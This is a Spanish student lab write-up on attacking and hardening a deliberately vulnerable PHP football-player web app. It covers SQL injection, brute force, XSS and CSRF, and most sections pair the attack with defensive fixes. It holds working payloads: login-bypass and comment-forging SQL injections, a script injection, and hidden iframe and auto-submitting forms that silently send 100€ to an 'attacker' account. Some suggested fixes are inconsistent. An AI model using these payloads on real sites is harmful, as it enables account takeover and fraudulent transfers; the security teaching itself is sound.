### **1. SQLi**
   La página no permite añadir jugadores a usuarios no autenticados, un formulario nos exige que introduzcamos un usuario y contraseña válidos. Lo primero que haremos es comprobar que este formulario es vulnerable a una inyección y aprovecharlo para saltarnos esta protección.

   **a)** Dad un ejemplo de combinación de usuario y contraseña que provoque un error en la consulta SQL generada por este formulario. A partir del mensaje de error obtenido, decid cuál es la consulta SQL que se ejecuta, cuál de los campos introducidos al formulario utiliza y cuál no.

   |Escribo los valores...|“|
   | :- | :- |
   |En el campo...|User|
   |Del formulario de la página...|Authentication page|
   |La consulta SQL que se ejecuta es...|SELECT userId, password FROM users WHERE username = """|
   |Campos del formulario web utilizados en la consulta SQL...|User|
   |Campos del formulario web no utilizados en la consulta SQL...|Password|

   Introducimos “ en el campo User.

   

   Nos da este error.

   

   **b)** Gracias a la SQL Injection del apartado anterior, sabemos que este formulario es vulnerable y conocemos el nombre de los campos de la tabla “users”. Para tratar de impersonar a un usuario, nos hemos descargado un diccionario que contiene algunas de las contraseñas más utilizadas (se listan a continuación):

   password

   123456

   12345678

   1234

   qwerty

   12345678

   dragon

   Dad un ataque que, utilizando este diccionario, nos permita impersonar un usuario de esta aplicación y acceder en nombre suyo. Tened en cuenta que no sabéis ni cuántos usuarios hay registrados en la aplicación, ni los nombres de estos.

<table>   <tr><th colspan="1" rowspan="3">Explicación del ataque</th><th colspan="1" valign="top">El ataque consiste en repetir...</th></tr>
   <tr><td colspan="1" valign="top">Dos payloads, uno para user y otro para contraseña.</td></tr>
   <tr><td colspan="1" valign="top">… utilizando en cada interacción una contraseña diferente del diccionario y un numero auto incrementado.</td></tr>
   <tr><td colspan="1" valign="top">Campo de usuario con el que el ataque ha tenido éxito</td><td colspan="1" valign="top">Luis (userId = 2)</td></tr>
   <tr><td colspan="1" valign="top">Campo de contraseña con el que el ataque ha tenido éxito</td><td colspan="1" valign="top">1234</td></tr>
</table>

   Interceptando el tráfico de con Burpsuite, seleccionamos la página con el formulario vulnerable.

   


   Hacemos un ataque cluster bomb, introduciendo en user “ OR userId = añadiendo un payload para con números incrementales de 1 a 10. De este modo ira cambiando el valor del userId.

   

   Creamos también otro payload para el campo password, de tipo lista simple, con las contraseñas del diccionario.

   

   Y nos devolverá la id del usuario al que pertenece la contraseña. También podríamos haber usado para user, un payload con un diccionario de nombres de usuario.

   


   c) Si vais a private/auth.php, veréis que en la función areUserAndPasswordValid, se utiliza “SQLite3::escapeString()”, pero, aun así, el formulario es vulnerable a SQL Injections, explicad cuál es el error de programación de esta función y como lo podéis corregir.

| Explicación del error... | El error está en que la función `SQLite3::escapeString()` se aplica a toda la consulta SQL y debería aplicarse solo al valor del parámetro `$user`. Así que la función de escape no sirve para evitar las inyecciones SQL. |
| :- | :- |
| Solución: cambiar la línea con el código... | ```php $query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"'); ``` |
| …por la siguiente línea... | ```php function areUserAndPasswordValid($user, $password) { global $db, $userId; $query = "SELECT userId, password FROM users WHERE username = :username"; $stmt = $db->prepare($query); $stmt->bindValue(':username', $user, SQLITE3_TEXT); $result = $stmt->execute(); $row = $result->fetchArray(SQLITE3_ASSOC); if (!$row) return FALSE; if ($password == $row['password']) { $userId = $row['userId']; $_COOKIE['userId'] = $userId; return TRUE; } else { return FALSE; } } ``` |

   **d)** Si habéis tenido éxito con el apartado b), os habéis autenticado utilizando el usuario luis (si no habéis tenido éxito, podéis utilizar la contraseña 1234 para realizar este apartado). Con el objetivo de mejorar la imagen de la jugadora Candela Pacheco, le queremos escribir un buen puñado de comentarios positivos, pero no los queremos hacer todos con la misma cuenta de usuario.

   Para hacer esto, en primer lugar habéis hecho un ataque de fuerza bruta sobre el directorio del servidor web (por ejemplo, probando nombres de archivo) y habéis encontrado el archivo add\\_comment.php~. Estos archivos seguramente se han creado como copia de seguridad al modificar el archivo “.php” original directamente al servidor. En general, los servidores web no interpretan (ejecuten) los archivos .php~ sino que los muestran como archivos de texto sin interpretar.

   Esto os permite estudiar el código fuente de add\_comment.php y encontrar una vulnerabilidad para publicar mensajes en nombre de otros usuarios. ¿Cuál es esta vulnerabilidad, y cómo es el ataque que utilizáis para explotarla?

   |Vulnerabilidad detectada...|<p>Se puede hacer una inyección SQL en la consulta de insertar comentarios.</p><p>En esta línea:</p><p></p><p>$query = "INSERT INTO comments (playerId, userId, body) VALUES ('".$\_GET['id']."', '".$\_COOKIE['userId']."', '$body')";</p><p></p><p>El problema es que $\_GET['id'] se inserta directamente en la consulta SQL sin validación ni escape.</p>|
   | :- | :- |
   |Descripción del ataque...|<p>Podemos hacer una inyección usando:</p><p></p><p>http://ejemplo.com/add\_comment.php?id=1', '2', 'Comentario falso') --</p><p></p><p>cambiaremos el id del usuario, en nuestro caso el segundo valor (2) que es el que corresponde al userId, ya que la consulta sería:</p><p></p><p>INSERT INTO comments (playerId, userId, body) VALUES ('1', '2', 'Comentario falso') --', 'valor\_de\_cookie', 'texto\_del\_formulario')</p><p></p><p>de esta forma podremos escribir el comentario con el Id del usuario que pongamos en lugar de con el que estemos identificados.</p>|
   |¿Cómo podemos hacer que sea segura esta entrada?|<p>Una de las medidas que podemos aplicar es usar consultas preparadas, las cuales separan completamente los datos de la estructura, de la consulta SQL, evitando así la inyección.</p><p>Para aplicar esto, cambiaríamos esta línea:</p><p></p><p>$query = "INSERT INTO comments (playerId, userId, body) VALUES ('".$\_GET['id']."', '".$\_COOKIE['userId']."', '$body')";</p><p></p><p>por esta:</p><p></p><p>$query = "INSERT INTO comments (playerId, userId, body) VALUES (:playerId, :userId, :body)";</p><p>$stmt = $db->prepare($query);</p><p>$stmt->bindValue(':playerId', $\_GET['id'], SQLITE3\_INTEGER);</p><p>$stmt->bindValue(':userId', $\_COOKIE['userId'], SQLITE3\_INTEGER);</p><p>$stmt->bindValue(':body', $body, SQLITE3\_TEXT);</p><p>$stmt->execute();</p>|

   Cambiamos el userId.

   

   

   Y veremos como los comentarios se añaden con el nombre de otro usuario.

   

### **2. XSS**
   En vistas de los problemas de seguridad que habéis encontrado, empezáis a sospechar que esta aplicación quizás es vulnerable a XSS (Cross Site Scripting).

   **a)** Para ver si hay un problema de XSS, crearemos un comentario que muestre un alert de Javascript siempre que alguien consulte el/los comentarios de aquel jugador (show\_comments.php). Dad un mensaje que genere un «alert»de Javascript al consultar el listado de mensajes.

   |Introduzco el mensaje...|<script>alert('mensaje a mostrar');</script>|
   | :- | :- |
   |En el formulario de la página...|Para añadir comentarios (add\_comment.php)|

   

   **b)** Por qué dice &amp; cuando miráis un link (como el que aparece a la portada de esta aplicación pidiendo que realices un donativo) con parámetros GETdentro de código html si en realidad el link es sólo con "&" ?

| Explicación... | <p>Se escribe `&amp;` en HTML por seguridad y compatibilidad, para evitar que el navegador lo confunda con una entidad HTML, ya que podría causar errores.</p><p>Por ejemplo, un enlace con parámetros GET como:</p><p><code>&lt;a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"&gt;donate&lt;/a&gt;</code></p><p>Se codifica como:</p><p><code>&lt;a href="http://www.donate.co?amount=100&amp;destination=ACMEScouting/"&gt;donate&lt;/a&gt;</code></p><p>Esto asegura que el navegador entienda correctamente el `&` como parte de la URL y no como una entidad especial. El navegador lo convierte después a `&` al hacer la solicitud HTTP.</p> |
| :- | :- |

   **c)** Explicad cuál es el problema de show\_comments.php, y cómo lo arreglaríais. Para resolver este apartado, podéis mirar el código fuente de esta página.

| ¿Cuál es el problema? | <p>El problema en `show_comments.php` es una vulnerabilidad Cross-Site Scripting (XSS) combinada con una inyección SQL.</p><p>Es vulnerable a inyecciones porque concatena directamente `$_GET['id']` sin ninguna validación o escape, como vemos:</p><p></p><p><code>$query = "SELECT commentId, username, body FROM comments C, users U WHERE C.playerId =".$_GET['id']." AND U.userId = C.userId order by C.playerId desc";</code></p><p></p><p>Y es vulnerable a XSS porque el contenido de los comentarios se imprime directamente en el HTML sin ningún escape, como vemos en:</p><p></p><p><code>echo "&lt;div&gt;&lt;h4&gt;". $row['username'] ."&lt;/h4&gt;&lt;p&gt;commented: ". $row['body'] ."&lt;/p&gt;&lt;/div&gt;";</code></p> |
| :- | :- |
| Sustituyo el código de la/las líneas... | <p>Para Inyección SQL: <code>$query = "SELECT commentId, username, body FROM comments C, users U WHERE C.playerId =".$_GET['id']." AND U.userId = C.userId order by C.playerId desc";</code></p><p>Para XSS: <code>echo "&lt;div&gt;&lt;h4&gt; ". $row['username'] ."&lt;/h4&gt;&lt;p&gt;commented: " . $row['body'] . "&lt;/p&gt;&lt;/div&gt;";</code></p> |
| …por el siguiente código... | <p>Para inyección SQL: <code>$query = "SELECT commentId, username, body FROM comments C, users U WHERE C.playerId = :playerId AND U.userId = C.userId ORDER BY C.playerId DESC";</code></p><p><code>$stmt = $db->prepare($query);</code></p><p><code>$stmt->bindValue(':playerId', $_GET['id'], SQLITE3_INTEGER);</code></p><p><code>$result = $stmt->execute();</code></p><p></p><p>Para XSS: <code>echo "&lt;div&gt;&lt;h4&gt;" . htmlspecialchars($row['username'], ENT_QUOTES, 'UTF-8') . "&lt;/h4&gt;&lt;p&gt;commented: " . htmlspecialchars($row['body'], ENT_QUOTES, 'UTF-8') . "&lt;/p&gt;&lt;/div&gt;";</code></p><p></p><p>y validar y filtrar la entrada del usuario: <code>$playerId = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT);</code></p><p><code>if ($playerId === false || $playerId === null) {</code></p><p><code>die("Invalid player ID");</code></p><p><code>}</code></p> |

   **d)** Descubrid si hay alguna otra página que esté afectada por esta misma vulnerabilidad. En caso positivo, explicad cómo lo habéis descubierto.

   |Otras páginas afectadas...|He descubierto dos, insert\_player.php y buscador.php|
   | :- | :- |
   |¿Como lo he descubierto?|La forma en la que se manejan los datos es parecida a la que encontramos anteriormente en la página show\_comments.php. Ya que se muestran los datos del usuario o de la base de datos, en el html, sin escaparlos antes.|

   En el formulario de añadir jugador podemos insertar:

   

   Y nos mostraría cada vez que alguien visite el formulario la información almacenada en la cookie:

   

   Y en el buscador de jugadores, podemos introducir:

   

   Y nos mostraría cada vez que alguien visite el buscador:

   
1. ### **3. Control de acceso, autenticación y sesiones de usuarios**
   **a)** En el ejercicio 1, hemos visto cómo era inseguro el acceso de los usuarios a la aplicación. En la página de register.php tenemos el registro de usuario. ¿Qué medidas debemos implementar para evitar que el registro sea inseguro? Justifica esas medidas e implementa las medidas que sean factibles en este proyecto.

   Para evitar que el registro sea inseguro, podemos implementar, por ejemplo, la validación  y saneamiento de entradas, ya que vemos que, como en otras paginas que ya hemos visto, se usa SQLite3::escapeString(), y es mejor usar consultas preparadas, también deberíamos validar la longitud y el formato del nombre de usuario, cosa que no se está haciendo.

   Validación y saneamiento de entradas:

   Aunque se usa SQLite3::escapeString(), es mejor usar consultas preparadas. Además, debemos validar la longitud y formato del nombre de usuario. Debería quedar así en nuestro código:

```
$username = trim($_POST['username']);
if (strlen($username) < 3 || strlen($username) > 20) {
    die("El nombre de usuario debe tener entre 3 y 20 caracteres.");
}
if (!preg_match('/^[a-zA-Z0-9_]+$/', $username)) {
    die("El nombre de usuario solo puede contener letras, números y guiones bajos.");
} 
```

   Las contraseñas, actualmente se están guardando en texto plano, y deberíamos de aplicar un hash seguro para las contraseñas, podríamos usar password\_hash(), de este modo:

```
$password = password_hash($_POST['password'], PASSWORD_DEFAULT);
```

   La consulta a la base de datos, es de forma directa, deberíamos cambiarla a una consulta preparada, quedando así:

```
$query = "INSERT INTO users (username, password) VALUES (:username, :password)";
$stmt = $db->prepare($query);
$stmt->bindValue(':username', $username, SQLITE3_TEXT);
$stmt->bindValue(':password', $password, SQLITE3_TEXT);
$stmt->execute() or die("Invalid query");
```

   No se comprueba si el usuario existe ya antes de registrarlo, deberíamos comprobarlo implementando lo siguiente:

```
$checkQuery = "SELECT COUNT(*) FROM users WHERE username = :username";
$checkStmt = $db->prepare($checkQuery);
$checkStmt->bindValue(':username', $username, SQLITE3_TEXT);
$result = $checkStmt->execute();
if ($result->fetchArray()[0] > 0) {
    die("El nombre de usuario ya existe.");
}
```


   A la hora de establecer la contraseña, no existe ninguna política en las mismas, por lo que deberíamos implementar lo siguiente para requerir unos parámetros mínimos:

```
if (strlen($_POST['password']) < 8) {
    die("La contraseña debe tener al menos 8 caracteres.");
}
```


   No existe ninguna protección contra CSRF, que son un tipo de ataque que engaña al usuario para que realizar acciones en una aplicación web sin su consentimiento y/o conocimiento, por lo que podríamos implementar tokens CSRF en el formulario de la manera siguiente:

```
session_start();
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        die("Token CSRF inválido.");
    }
}
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));

// y en el formulario HTML:
<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
```


   El registro, se realiza sobre una conexión HTTP, deberíamos hacer que se realizara sobre una conexión HTTPS, pero esto lo debemos configurar en el servidor web, no en el código PHP de la aplicación web.

   **b)** En el apartado de login de la aplicación, también deberíamos implantar una serie de medidas para que sea seguro el acceso, (sin contar la del ejercicio 1.c). Como en el ejercicio anterior, justifica esas medidas e implementa las que sean factibles y necesarias (ten en cuenta las acciones realizadas en el register). Puedes mirar en la carpeta private

   Podemos implantar, ademas de la medida implementada en el ejercicio 1.c, las siguientes medidas:

   Un cambio en la comparación de contraseñas, que podemos implementar añadiendo:

```
if ($password === $row['password']) {
    $_SESSION['userId'] = $row['userId'];
    $_SESSION['username'] = $user;
    $_SESSION['last_activity'] = time();
    return TRUE;
} else {
    return FALSE;
}
```

   Iniciación de las variables antes del bloque de login:

```
$login_ok = FALSE;
$error = "";
```

   Añadimos una verificación de existencia del token CSRF.

```
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['username']) && isset($_POST['password'])) {
    if ($_SESSION['login_attempts'] >= 5) {
        $error = "Demasiados intentos fallidos. Por favor, inténtelo más tarde.";
    } elseif (!isset($_POST['csrf_token']) || !verifyCSRFToken($_POST['csrf_token'])) {
        $error = "Token CSRF inválido.";
    } else {
        if (areUserAndPasswordValid($_POST['username'], $_POST['password'])) {
            $login_ok = TRUE;
            $_SESSION['login_attempts'] = 0;
        } else {
            $login_ok = FALSE;
            $_SESSION['login_attempts']++;
            $error = "Usuario o contraseña inválidos.";
        }
    }
}
```

   Cambio en la ruta del CSS para reflejar la posible ubicación del archivo auth.php en una subcarpeta.

```
<link rel="stylesheet" href="../css/style.css">
```

   **c)** Volvemos a la página de register.php, vemos que está accesible para cualquier usuario, registrado o sin registrar. Al ser una aplicación en la cual no debería dejar a los usuarios registrarse, qué medidas podríamos tomar para poder gestionarlo e implementa las medidas que sean factibles en este proyecto.

   La opción mas sencilla que podríamos implementar, es deshabilitar el acceso público a register.php, de modo que quedara totalmente inaccesible, para lo que añadiríamos:
   
```
header("Location: index.php");
exit();
```


   Otras opciones que podríamos implementar es el uso de roles para usuarios, de modo que solo pudieran acceder a register.php los usuarios con un determinado rol, como por ejemplo, administrador. En nuestro caso, no podríamos hacerlo, ya que la base de datos en la tabla users no contiene un campo para almacenar los roles de los usuarios, pero en caso de que se pudiera crear ese campo, para implementar este sistema de roles, deberíamos cambiar lo siguiente:

```
Añadir en el formulario un campo para seleccionar los roles:

<select name="user_role" id="user_role">
    <option value="user">Usuario</option>
    <option value="admin">Administrador</option>
</select>

Modificar todo el proceso de registro para integrar el rol seleccionado:

if(isset($_POST['register'])) {
    $username = $_POST['username'];
    $password = password_hash($_POST['password'], PASSWORD_DEFAULT);
    $role = $_POST['user_role'];

    $query = "INSERT INTO users (username, password, role) VALUES (?, ?, ?)";
    $stmt = $db->prepare($query);
    $stmt->bind_param("sss", $username, $password, $role);
    $stmt->execute();
}

Almacenar el rol en la sesión:

if($user = $stmt->fetch()) {
    $_SESSION['user_id'] = $user['id'];
    $_SESSION['username'] = $user['username'];
    $_SESSION['user_role'] = $user['role'];
}
```


   **d)** Al comienzo de la práctica hemos supuesto que la carpeta private no tenemos acceso, pero realmente al configurar el sistema en nuestro equipo de forma local. ¿Se cumple esta condición? ¿Qué medidas podemos tomar para que esto no suceda?

   Si, podemos acceder a los archivos contenidos dentro de private. Para evitar el acceso a ese contenido, podemos crear dentro del directorio private, un archivo con nombre .htaccess y con el siguiente contenido:

```
Order Deny,Allow
Deny from all
```


   De este modo, se denegará el acceso a todos los usuarios que intenten acceder al contenido desde el navegador.

   Otra opción seria mover la carpeta private fuera del directorio público, donde no sea accesible a través de URL.

   También podríamos cambiar los permisos al directorio, para que no hubiera acceso al mismo, lo podríamos hacer aplicando:

```
chmod 750 private
chmod 640 private/*
```

   Si necesitáramos acceso de determinados usuarios, podríamos configurar una autenticación básica basada en HTML usando .htaccess y .htpasswd

   **e)** Por último, comprobando el flujo de la sesión del usuario. Analiza si está bien asegurada la sesión del usuario y que no podemos suplantar a ningún usuario. Si no está bien asegurada, qué acciones podríamos realizar e implementarlas.

   Aunque ya está bastante mejorada la seguridad del login con respecto al comienzo de la práctica, se pueden implementar algunas mejoras como:

   Regeneración del ID de sesión después del login:

```
session_regenerate_id(true);
```

   Mejorar la limpieza de sesión en el logout:

```
function logout() {
    $_SESSION = array();
    if (ini_get("session.use_cookies")) {
        $params = session_get_cookie_params();
        setcookie(session_name(), '', time() - 42000,
            $params["path"], $params["domain"],
            $params["secure"], $params["httponly"]
        );
    }
    session_destroy();
}
```

   Implementar una validación de entradas mas robusta:

```
$username = filter_input(INPUT_POST, 'username', FILTER_SANITIZE_STRING);
if (!$username || strlen($username) < 3 || strlen($username) > 20) {
    $error = "Nombre de usuario inválido";
}
```

### **4. Servidores web**
   ¿Qué medidas de seguridad se implementaríais en el servidor web para reducir el riesgo a ataques?

   Para que podamos reducir el riesgo a ataques en nuestro servidor web, podríamos implementar algunas medidas de seguridad, como por ejemplo:

   A nivel de servidor, debemos mantener el sistema y los servicios actualizados y con los últimos parches de seguridad disponibles. Deberíamos aplicar el principio de mínimos privilegios, desactivar servicios y software que no necesitemos para reducir al máximo la superficie de ataque, tendríamos que proteger con contraseñas los directorios sensibles, utilizar certificados SSL/TLS para cifrar el tráfico y podríamos implementar una autenticación de dos factores

   A nivel de seguridad en la red, podemos usar firewalls para bloquear o limitar el acceso a puertos que no nos interesen, ubicar el servidor en una DMZ, implementar un sistema de detección y prevención de intrusiones (IDS/IPS) y utilizar herramientas como SIEM, WAF, IDS e IPS para monitorear y analizar la seguridad en tiempo real

   En conjunto, tendríamos que realizar auditorias regulares de los servicios y archivos e implementar un sistema de copias de seguridad automático y periódico, comprobando también periódicamente que se estén realizando correctamente.

### **5. CSRF**
   Ahora ya sabemos que podemos realizar un ataque XSS. Hemos preparado el siguiente enlace: http://web.pagos/donate.php?amount=100&receiver=attacker, mediante el cual, cualquiera que haga click hará una donación de 100€ al nuestro usuario (con nombre 'attacker') de la famosa plataforma de pagos online 'web.pagos' (Nota: como en realidad esta es una dirección inventada, vuestro navegador os devolverá un error 404).

   a) Editad un jugador para conseguir que, en el listado de jugadores list\\_players.php aparezca, debajo del nombre de su equipo y antes de show/add comments un botón llamado Profile que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.

| En el campo... | 
| --------------- | 
| ```html  
<div>  
    <a href="show_comments.php?id=".$row['playerid'].">(show/add comments)</a>  
    <a href="insert_player.php?id=".$row['playerid'].">(edit player)</a>  
</div>  
</li>  
}  
``` |

| Introduzco... |
| --------------- |
| ```html  
<form action='http://web.pagos/donate.php' method='get' style='display:inline;'>  
    <input type='hidden' name='amount' value='100'>  
    <input type='hidden' name='receiver' value='attacker'>  
    <input type='submit' value='Profile' style='cursor:pointer;'>  
</form>  
``` |


   **b)** Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que el usuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show\_comments.php).

   Podríamos hacerlo de varias formas, una de ellas sería incluyendo en el comentario una imagen oculta, que cargue la URL de donación de manera silenciosa cuando se abra el comentario, un ejemplo podría ser:

```
<p>Sin duda el mejor jugador de todos los tiempos!</p>
<p></p>
```


   Otra opción podría ser incluir en el comentario un iframe, que haga lo mismo que antes ha hecho la imagen, un ejemplo sería:

```
<p>Sin duda el mejor jugador de todos los tiempos!</p>
<p><iframe src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="width:0;height:0;border:0; border:none;"></iframe></p>
```

   **c)** Pero web.pagos sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.

   Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

   Para que se efectúen las donaciones, es requisito indispensable que el usuario esté autenticado en la web de web.pagos antes de leer el comentario con contenido malicioso, ya que se necesita que se usen las cookies de sesión de web.pagos que mantienen al usuario autenticado, es necesario por tanto que la sesión del usuario en web.pagos, aun se encuentre activa y no haya caducado, es también indispensable que el usuario este usando el mismo navegador en el que se autenticó en web.pagos, y web.pagos no debe de estar implementando medidas de seguridad como el uso de tokens CSRF o la verificación del origen de las solicitudes.

   **d)** Si web.pagos modifica la página donate.phpdpara que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

   No, usar el método POST en lugar de GET, aunque POST es mas seguro que GET, sigue siendo vulnerable a ataques CSRF, a no ser que se implementen medidas de seguridad adicionales.

   Un ejemplo de mensaje malicioso que realice un ataque CSRF usando POST en lugar de GET podría ser:

```
<p>Sin duda el mejor jugador de todos los tiempos!</p>
<p><iframe style="display:none" name="csrf-frame"></iframe></p>
<p><form action="http://web.pagos/donate.php" method="POST" target="csrf-frame" id="csrf-form">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="attacker">
</form></p>
<p><script>document.getElementById("csrf-form").submit();</script></p>
```


   Este mensaje, crea un formulario, que se envía de manera silenciosa cuando el usuario accede al comentario, en este caso, usando POST en lugar de GET.
